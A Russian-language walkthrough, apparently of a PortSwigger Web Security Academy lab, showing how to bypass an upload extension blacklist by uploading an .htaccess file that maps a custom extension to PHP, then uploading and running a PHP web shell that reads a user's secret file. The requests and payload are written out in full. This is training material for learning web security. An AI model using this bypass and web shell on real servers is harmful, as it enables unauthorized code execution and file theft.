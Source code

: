 .Логинимся под `wiener:peter`. Загружаем случайный аватар в личном кабинете, и находим данный запрос в `Proxy` -> `HTTP history` и отправляем его в `Repeater`
```
POST /my-account/avatar
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/4.%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/pics%20for%20walktrough/1.png)

На следущем шаге загрузим php shell со следюущим содержимым `<?php echo file_get_contents('/home/carlos/secret'); ?>`, и изменим параметры `filename` и тело запроса
```
POST /my-account/avatar
...
filename="shell.php"
...
<?php echo file_get_contents('/home/carlos/secret'); ?>
...
```
в ответ получим - `Sorry, php files are not allowed`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/4.%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/pics%20for%20walktrough/2.png)
На следующем шаге обойдем защиту от загрузки `.php файлов`. Загрузим на сервер приложения конфиг `.htaccess` в который мы пропишем придуманное нами расширениие, которое потом распакуется как `.php` и наш эксплойт пройдет
```
POST /my-account/avatar
...
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell
```
(вместо `.shell` мы могли бы выбрать любое другое расширение, хоть `.abcdef`, все на Ваш вкус)
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/4.%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/pics%20for%20walktrough/3.png)
Далее загрузим файл с тем же самым пэйлоадом, но уже с нашим новым расширением `.shell`
```
POST /my-account/avatar
...
filename="shell.shell"
...
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
и видим сообщение что он успешно загружен - `The file avatars/shell.shell has been uploaded.`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/4.%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/pics%20for%20walktrough/4.png)
Запустим наш шелл с помощью GET запроса
```
GET /files/avatars/shell.shell
```
И в ответ получим секрет пользователя `carlos` - `I9Eh93tqQwQYRWj9HC28ixDLTZ30GPfX`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/4.%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/pics%20for%20walktrough/5.png)
Сдадим ответ - `I9Eh93tqQwQYRWj9HC28ixDLTZ30GPfX` в качестве ответа и получим уведомление об успешном выполнении лабораторной работы
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/4.%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/pics%20for%20walktrough/6.png)

